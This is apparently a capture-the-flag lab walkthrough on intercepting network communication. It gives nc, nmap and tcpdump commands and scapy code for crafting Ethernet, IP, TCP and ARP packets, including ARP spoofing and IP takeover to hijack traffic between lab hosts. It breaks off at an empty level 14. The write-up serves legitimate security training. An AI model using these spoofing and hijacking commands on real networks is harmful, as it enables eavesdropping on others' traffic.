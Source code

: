 # Intercepting Communication

## level 1

> Connect to a remote host

We can use `nc` to connect to the specified address on the port specified.

```
$ nc 10.0.0.3 31337
```



## level 2

> Listen for a connection from a remote host

The `l` option in `nc` allows users to listen on a specified port.

```
$ nc -l 31337
```



## level 3

> Find and connect to a remote host

`nmap` is a very useful tool that we can use to find open addressees and ports.

```
$ nmap -v 10.0.0.0/24 -p 31337
```

After that we just have to connect on the open

```
$ nc 10.0.0.245 31337
```



## level 4

> Find and connect to a remote host on a large network

This time we have to scan a `/16` so we need to speed up the process.

The `T5` flag in `nmap` sets the scan speed to `insane` which is the fastest available speed.

```
$ nmap -v 10.0.0.0/16 -p 31337 -T5
```



## level 5

> Monitor traffic from a remote host

We can use `tcpdump` to look at the packets we are receiving.

```
$ tcpdump -A
```

The `A` flag prints out every packet in ASCII.



## level 6

```
$ tcpdump -A > packet.txt
$ cat packet.txt
```



## level 7

> Hijack traffic from a remote host by configuring your network interface

In this level, the host at 10.0.0.4 is communicating with the host at 10.0.02.

We can essentially become 10.0.0.2 so that we now receive those packets.

```
$ ip address add 10.0.0.2/16 dev eth0
```

We have added the address on our `eth0` interface.

Now when we receive an ARP `who-has` request asking for 10.0.0.2, we can send a `is-at` reply with our MAC address.

```
$ nc -l 31337
```



## level 8

> Manually send an Ethernet packet

We can use `scapy` in order to create and send packets.

```python
>>> Ether().display()
WARNING: Mac address to reach destination not found. Using broadcast.
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 00:00:00:00:00:00
  type      = 0x9000
```

We have to change the default fields.

```python
>>> Ether(src="66:73:a8:6d:31:49", dst="ff:ff:ff:ff:ff:ff", type=0xFFFF).display()
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 66:73:a8:6d:31:49
  type      = 0xffff
```

Now that we have the correct fields, we are ready to send the packet.

```python
>>> sendp(Ether(src="66:73:a8:6d:31:49", dst="ff:ff:ff:ff:ff:ff", type=0xFFFF), iface="eth0")
```

The remote host is connected to the `eth0` interface, so we send the packets out of the `eth0` interface.



## level 9

> Manually send an Internet Protocol packet

We can encapsulate a packet within another packet using the `/` separator.

```python
>>> (Ether(src="c6:0a:09:24:4f:c9", dst="ff:ff:ff:ff:ff:ff") / IP()).display()
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = c6:0a:09:24:4f:c9
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = hopopt
     chksum    = None
     src       = 127.0.0.1
     dst       = 127.0.0.1
     \options   \
```

Now we just have to fill the correct fields.

```python
>>> sendp(Ether(src="c6:0a:09:24:4f:c9", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3", proto=0xFF), iface="eth0")
```



## level 10

> Manually send a Transmission Control Protocol packet

We have to add another layer of encapsulation, which is TCP.

```python
>>> sendp(Ether(src="fa:2c:4a:60:51:ee", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP( sport=31337, dport=31337, seq=31337, ack=31337, flags="APRSF"), iface="eth0")
```



## level 11

> Manually perform a Transmission Control Protocol handshake

A TCP handshake is really just a sequence of packets that establishes a secure and reliable connection between two devices.

<figure><img src="../.gitbook/assets/TCP handshake.png" alt=""><figcaption></figcaption></figure>

It includes three packets:

1. SYN
2. SYN-ACK
3. ACK

We have to first send a SYN packet, represented by the `S` flag.

```python
>>> response = srp(Ether(src="1a:57:9e:f1:dd:33", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="S"), iface="eth0")
```

Let's look at the response from the host at 10.0.0.3.

```python
>>> response[0][0]
QueryAnswer(
	query=<Ether  dst=ff:ff:ff:ff:ff:ff src=1a:57:9e:f1:dd:33 type=IPv4 |<IP  frag=0 proto=tcp src=10.0.0.2 dst=10.0.0.3 |<TCP  sport=31337 dport=31337 seq=31337 flags=S |>>>, 
	answer=<Ether  dst=1a:57:9e:f1:dd:33 src=1e:c3:ea:f1:34:3e type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=40 id=1 flags= frag=0 ttl=64 proto=tcp chksum=0x66cb src=10.0.0.3 dst=10.0.0.2 |<TCP  sport=31337 dport=31337 seq=3093962236 ack=31338 dataofs=5 reserved=0 flags=SA window=8192 chksum=0x362a urgptr=0 |>>>
)
```

As we can see, the response has `seq` field set to `3093962236` and the `ack` field set to `31338` which is our `seq+1`.

So the host at 10.0.0.3 has acknowledged our SYN packet. Now we have to acknowledge theirs by setting our `ack` field to `3093962237` which is their `seq+1`.

```python
>>> sendp(Ether(src="1a:57:9e:f1:dd:33", dst="1e:c3:ea:f1:34:3e") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31338, ack=3093962237, flags="A"), iface="eth0")
```



## level 12

> Manually send an Address Resolution Protocol packet

We need to tell the host at 10.0.0.3 that we have the IP address that they want to talk to. For that we need to send an ARP `is-at` response.

Note that ARP encapsulates an Ethernet frame.

```python
>>> ARP().display()
WARNING: No route found (no default route?)
WARNING: No route found (no default route?)
###[ ARP ]### 
  hwtype    = Ethernet (10Mb)
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 00:00:00:00:00:00
  psrc      = 0.0.0.0
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0
```

The packet fields represent the following:

* `hwsrc`: Source hardware address. This will be updated in the target's ARP table.
* `psrc`: The IP to be added in the target's ARP table.
* `hwdst`: Destination hardware address.
* `pdst`: Destination where the ARP packet must go.

```python
>>> sendp(Ether(src="8a:3f:c0:ef:89:cf", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", psrc="10.0.0.2", hwsrc="8a:3f:c0:ef:89:cf"), iface="eth0")
```



## level 13

> Hijack traffic from a remote host using ARP

In this level we have to achieve the same goal as level 7. However, we don't have the ability to add addresses as we are not the net admin.

Therefore we will have to create an ARP packet from scratch and send it to the host on 10.0.0.4.

```python
>>> sendp(Ether(src="76:45:f9:f1:45:de", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", psrc="10.0.0.2", hwsrc="76:45:f9:f1:45:de") / IP(src="10.0.0.3", dst="10.0.0.4"), iface="eth0")
```



## level 14
